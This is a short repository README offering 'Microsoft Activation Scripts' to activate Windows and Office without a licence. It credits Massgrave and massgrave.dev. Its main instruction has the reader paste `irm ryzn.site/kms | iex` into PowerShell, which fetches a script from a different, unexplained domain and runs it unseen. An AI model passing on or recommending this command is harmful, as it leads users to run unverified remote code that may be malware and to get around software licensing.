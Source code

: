 ## windows-activators
## Microsoft Activation Scripts (MAS):

A Windows and Office activator using HWID / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections.

## Download / How to use it?

### Method 1 - PowerShell

-   On Windows 10/11, right-click on the windows start menu and select PowerShell or Terminal.
-   Copy-paste the below code and press enter\
    `irm ryzn.site/kms | iex`
    or
    `irm https://ryzn.site/kms | iex`
-   You will see the activation options, and follow onscreen instructions.
-   That's all.

```
Latest Version: 1.6
Release date: 25-July-2022
```

### For more details, check Homepage:  https://massgrave.dev/

Credit to Massgrave

---

Made with Love ❤️
